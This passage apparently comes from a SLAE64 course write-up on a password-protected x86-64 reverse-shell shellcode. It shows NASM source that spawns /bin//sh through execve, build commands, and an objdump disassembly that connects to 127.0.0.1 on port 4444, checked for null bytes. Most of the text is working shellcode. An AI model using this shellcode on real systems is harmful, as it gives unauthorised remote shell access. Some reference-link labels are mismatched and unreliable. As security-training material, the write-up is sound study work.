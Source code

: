         xor rax, rax
        push rax
        mov rdx, rsp ; *rdx = &0x00

        mov rsi, 0x68732f2f6e69622f
        push rsi
        mov rdi, rsp ; rdi = (char*) /bin//sh

        push rax
        push rdi
        mov rsi, rsp ; rsi = (char**) (/bin//sh, 0x00)

        mov al, 59
        syscall

    exit:
        ;xor eax, eax  ; upper bytes are zero after read
        mov al, 60
        syscall

Shellcode disassembly revealing nulls:

    $ nasm -felf64 reverse-shell-pass.nasm
    $ objdump -M intel -d reverse-shell-pass.o

    reverse-shell-pass.o:     file format elf64-x86-64

    Disassembly of section .text:

    0000000000000000 <_start>:
       0:	eb 05                	jmp    7 <real_start>

    0000000000000002 <password>:
       2:	70 61                	jo     65 <read_password+0x1>
       4:	73 73                	jae    79 <compare_password+0xb>

    0000000000000006 <pass_len>:
       6:	04                   	.byte 0x4

    0000000000000007 <real_start>:
       7:	b8 29 00 00 00       	mov    eax,0x29
       c:	bf 02 00 00 00       	mov    edi,0x2
      11:	be 01 00 00 00       	mov    esi,0x1
      16:	ba 00 00 00 00       	mov    edx,0x0
      1b:	0f 05                	syscall 
      1d:	48 89 c7             	mov    rdi,rax

    0000000000000020 <connect>:
      20:	48 31 c0             	xor    rax,rax
      23:	50                   	push   rax
      24:	c7 44 24 fc 7f 00 00 	mov    DWORD PTR [rsp-0x4],0x100007f
      2b:	01 
      2c:	48 83 ec 04          	sub    rsp,0x4
      30:	66 68 11 5c          	pushw  0x5c11
      34:	66 6a 02             	pushw  0x2
      37:	b8 2a 00 00 00       	mov    eax,0x2a
      3c:	48 89 e6             	mov    rsi,rsp
      3f:	ba 10 00 00 00       	mov    edx,0x10
      44:	0f 05                	syscall 


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7